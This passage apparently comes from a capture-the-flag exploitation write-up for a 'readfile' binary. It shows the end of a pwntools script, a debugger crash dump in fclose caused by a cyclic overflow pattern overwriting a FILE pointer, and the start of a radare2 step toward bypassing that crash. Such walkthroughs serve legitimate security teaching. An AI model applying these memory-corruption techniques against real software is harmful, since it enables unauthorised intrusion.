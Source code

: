 ```python
''')
read_file(filename)

r.interactive()
```

Executing this code and we see the following crash.

```
[----------------------REGISTERS-----------------------]
*EAX  0x63616170 ('paac')
*EBX  0xf771b000 <-- 0x1a9da8
*ECX  0xf771bb07 (_IO_2_1_stdout_+71) <-- 0x71c8980a /* '\nq' */
*EDX  0xf771c898 <-- 0x0
*EDI  0x0
*ESI  0x63616170 ('paac')
*EBP  0xffe59fa8 <-- 'saactaacuaacvaa...'
*ESP  0xffe59e50 --> 0xf771bac0 (_IO_2_1_stdout_) <-- 0xfbad2887
*EIP  0xf75d4386 (fclose+22) <-- cmp    byte ptr [esi + 0x46], 0 /* '~F' */
[-------------------------CODE-------------------------]
 => 0xf75d4386 <fclose+22>    cmp    byte ptr [esi + 0x46], 0
    0xf75d438a <fclose+26>    jne    0xf75d4510          <0xf75d4510; fclose+416>
[------------------------STACK-------------------------]
00:0000| esp  0xffe59e50 --> 0xf771bac0 (_IO_2_1_stdout_) <-- 0xfbad2887
01:0004|      0xffe59e54 --> 0xf771b000 <-- 0x1a9da8
02:0008|      0xffe59e58 <-- 0x0
03:000c|      0xffe59e5c <-- 0x0
04:0010|      0xffe59e60 --> 0xffe59fa8 <-- 'saactaacuaacvaa...'
05:0014|      0xffe59e64 --> 0xf7747500 <-- pop    edx
06:0018|      0xffe59e68 --> 0xf771c898 <-- 0x0
07:001c|      0xffe59e6c --> 0xf771b000 <-- 0x1a9da8
[----------------------BACKTRACE-----------------------]
>  f 0 f75d4386 fclose+22
   f 1  804890f read_file+231
   f 2 63616174
   f 3 63616175
   f 4 63616176
   f 5 63616177
   f 6 63616178
   f 7 63616179
   f 8 6461617a
   f 9 64616162
   f 10 64616163
Program received signal SIGSEGV
```

Here we see the crash occurs because `esi+0x46` cannot be dereferenced because esi is part of our cyclic string `paac`. Not really knowing what this means in the `FILE` struct, let's set that `paac` to any valid address to see if we can bypass this crash. To start, let's set that `esi` value to the value of our filename.

```
$ r2 readfile 
[0x08048640]> aaa
[0x08048640]> s obj.name
[0x0804a0a0]> 
```
